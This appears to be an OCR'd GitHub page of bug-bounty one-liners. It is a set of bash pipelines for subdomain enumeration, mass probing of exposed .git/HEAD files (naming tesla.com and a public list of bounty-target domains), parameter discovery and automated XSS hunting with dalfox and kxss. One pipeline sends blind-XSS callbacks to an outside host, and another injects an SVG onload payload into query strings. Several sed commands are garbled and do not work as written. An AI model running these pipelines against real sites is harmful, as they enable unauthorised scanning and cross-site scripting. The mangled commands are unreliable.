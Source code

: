 ```bash
[ -f "urls.txt" ] && mkdir -p downloaded_json && while read -r url; do wget -q "$url" -O "downloaded_json/$(basename "$url")" && scan_output=$(confused -l npm "downloaded_json/$(basename "$url")") && echo "$scan_output" | grep -q "Issues found" && echo "Vulnerability found in: $(basename "$url")" || echo "No vulnerability found in: $(basename "$url")"; done < <(cat urls.txt)
```
**find params using x8**
```bash
subdomain -d target.com -silent -all -recursive | httpx -silent | sed -s 's/$/\//' | xargs -I@ sh -c 'x8 -u @ -w parameters.txt -o output.txt'
```
**find reflected parameters for xss - [xss0r](https://raw.githubusercontent.com/xss0r/xssorRecon/refs/heads/main/reflection.py)**
```bash
python3 reflection.py urls.txt | grep "Reflection found" | awk -F'[?&]' '!seen[$2]++' | tee reflected.txt
```
**Find Subdomain**
```bash
subfinder -d target.com -silent | httpx -silent -o urls.txt
```
**Search Subdomain using Gospider**
```bash
gospider -d 0 -s "https://site.com" -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```
**find .git/HEAD**
```bash
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's****.git/HEAD**' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
**Check .git/HEAD**
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's****.git/HEAD**' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
**Find XSS** 
**Single target**
```bash
gospider -s "https://www.target.com/" -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
**Multiple target**
```bash
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
**Find XSS**
```bash

hakrawler -url "${1}" -plain -usewayback -wayback | grep "${1}" | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | kxss | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | dalfox pipe -b https://your.xss.ht

# save to .sh, and run bash program.sh target.com
```
**Kxss to search param XSS**
```bash
echo http://testphp.vulnweb.com/ | waybackurls | kxss
```
**XSS hunting multiple**
```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```